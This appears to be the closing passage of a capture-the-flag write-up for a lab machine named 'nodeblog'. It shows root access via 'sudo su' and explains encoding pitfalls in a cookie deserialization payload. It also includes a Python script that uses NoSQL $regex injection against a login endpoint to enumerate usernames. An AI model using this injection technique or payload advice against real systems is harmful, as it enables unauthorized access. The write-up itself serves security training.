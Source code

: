 And, admin can run anything as root. `sudo su` will return a root shell:

    
    
    admin@nodeblog:/dev/shm$ sudo su
    root@nodeblog:/dev/shm#
    

And I can read `root.txt`:

    
    
    root@nodeblog:~# cat root.txt
    8c01d129************************
    

## Beyond Root

### Bad Characters in Deserialization Payload

For the deserialization payload, when I used ctrl-u to “encode key characters”
in Burp, the payload didn’t work. When I encoded all the characters, it did. I
wanted to figure out what was breaking it. I’ll explore a bit in [this
video](https://www.youtube.com/watch?v=MT3wwqIAU1c):

The answer is two things. With no encoding, it breaks because of the `;`. That
signifies the end of the cookie in HTTP, and thus breaks things. So when I
ctrl-u, that is fixed. But ctrl-u also replaces spaces with `+`, which seems
to break this application as well. On replacing those with either spaces or
`%20`, the payload works fine.

Moral of the story - pay attention to the encoding.

### NoSQL Data Collection

I was able to use the NoSQL injection to bypass auth on the login form. I
could also use that to enumerate at least the fields used in the query. I
started with a script that would give me all the accounts on the box.

    
    
    #!/usr/bin/env python3
    
    import requests
    import string
    
    
    def brute_username(user):
        for c in string.ascii_lowercase:
            print(f'\r{user}{c:<50}', end='')
            payload = { 'user':
                           { '$regex' : f'^{user}{c}' },
                        'password': '0xdf'
                      }
            resp = requests.post('http://10.10.11.139:5000/login', json=payload)
    
            if 'Invalid Password' in resp.text:
                payload = {'user': f'{user}{c}', 'password': '0xdf'}
                resp = requests.post('http://10.10.11.139:5000/login', json=payload)
                if 'Invalid Password' in resp.text:
                    print(f'\r{user}{c}')
                brute_username(f'{user}{c}')
    